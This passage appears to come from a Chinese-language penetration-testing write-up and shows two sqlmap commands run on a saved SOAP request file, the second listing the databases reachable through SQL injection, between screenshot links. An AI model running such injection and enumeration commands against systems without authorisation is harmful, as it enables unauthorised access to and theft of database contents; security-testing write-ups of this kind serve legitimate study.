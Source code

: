 ```plain
sqlmap -r soap.txt
```

[![](assets/1705886707-acd4a65459b0ae6fd8928aa89d76b154.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120437-070f0076-b749-1.png)  
[![](assets/1705886707-6ff1734f7ba93083f9f4482bea9159c6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120444-0b7b3fe4-b749-1.png)  
跑数据库

```plain
sqlmap -r soap.txt --dbs
```
